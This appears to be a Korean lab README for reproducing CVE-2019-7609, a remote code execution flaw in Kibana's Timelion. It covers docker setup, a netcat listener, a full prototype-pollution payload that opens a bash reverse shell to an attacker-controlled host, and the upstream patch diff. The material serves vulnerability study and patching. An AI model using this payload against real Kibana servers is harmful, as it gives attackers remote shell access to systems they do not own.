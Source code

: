 # CVE-2019-7609 (Kibana)

Kibana의 Timelion visualizer의 결함으로 인해 리모트 코드 실행이 가능한 취약성

## 환경구성 (docker)

1. 첨부된 docker-compose.yml 을 실행한다.
```
docker-comopse up -d
```
2. 브라우저에서 `http://127.0.0.1:5601`에 접속한다.



## Exploit

1. reverse shell을 준비한다. 
```
$ nc -lvp 6666
```
2. Kibana의 Timelion 화면에서 페이로드를 입력 후, 실행을 누른다.

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/<공격자서버IP>/6666 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

```

2. 왼쪽 패널에서 Canvas를 클릭한다. 
3. Kibana 서버에서 리버스쉘로 접속이 이루어진다 :)

![payload](img/kibana-payload.png)
![reverse-shell](img/reverse-shell.png)

## Patch

Kibana를 6.6.1 or 5.6.15 이상 버전으로 업데이트

### 수정된 소스코드

https://github.com/elastic/kibana/commit/3377f813a5d96ff466bdf7343ce161de24830ed4.patch

```patch
From 3377f813a5d96ff466bdf7343ce161de24830ed4 Mon Sep 17 00:00:00 2001
From: ppisljar <peter.pisljar@gmail.com>
Date: Wed, 16 Jan 2019 06:01:20 -0800
Subject: [PATCH] fixes

---
 .../core_plugins/timelion/server/series_functions/props.js      | 2 +-
 1 file changed, 1 insertion(+), 1 deletion(-)

diff --git a/src/legacy/core_plugins/timelion/server/series_functions/props.js b/src/legacy/core_plugins/timelion/server/series_functions/props.js
index 81b74901d4db..80e9cafd6712 100644
--- a/src/legacy/core_plugins/timelion/server/series_functions/props.js
+++ b/src/legacy/core_plugins/timelion/server/series_functions/props.js
@@ -32,7 +32,7 @@ function unflatten(data) {
     let prop = '';
     let m;
     while (m = regex.exec(p)) {
-      cur = cur[prop] || (cur[prop] = (m[2] ? [] : {}));
+      cur = (cur.hasOwnProperty(prop) && cur[prop]) || (cur[prop] = (m[2] ? [] : {}));
       prop = m[2] || m[1];
     }
     cur[prop] = data[p];
```

